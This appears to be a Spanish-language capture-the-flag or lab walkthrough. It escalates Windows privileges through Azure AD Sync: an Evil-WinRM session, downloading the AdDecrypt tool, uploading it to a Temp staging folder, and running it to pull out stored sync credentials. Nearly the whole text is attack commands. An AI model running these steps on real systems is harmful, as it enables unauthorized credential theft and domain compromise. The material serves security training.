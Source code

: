 

### IDENTIFICAR GRUPO DE AZURE ADMIN
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> net user mhope
Global Group memberships     *Azure Admins         *Domain Users
```

### CARPETA DE AZURE
#### LISTAR VIA POTENCIAL PARA ESCALAR PRIVILEGIOS
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> cd "C:\Program Files"
*Evil-WinRM* PS C:\Program Files>
*Evil-WinRM* PS C:\Program Files> ls
-----> Microsoft Azure AD Sync [*NOS INTERESA ESTO*]
```



### REPOSITORIO Microsoft Azure AD Sync
```shell
wget https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip
```


### CARPETA SEGURA PARA HACER ESCALADA
```shell
*DIRECTORIO SEGURO PARA ELEVAR PRIVILEGIOS.*

*Evil-WinRM* PS C:\> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> mkdir Privesc
*Evil-WinRM* PS C:\Windows\Temp> cd Privesc
```

# AdDecrypt
```shell
❯ unzip AdDecrypt.zip
```


### SUBIR ARCHIVOS
```shell
#AdDecrypt.exe
upload AdDecrypt.exe

#mcrypt.dll
upload mcrypt.dll
```


### EJECUTAR EL BINARIO
```shell
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

C:\Windows\Temp\Privesc\AdDecrypt.exe -FullSQL
```

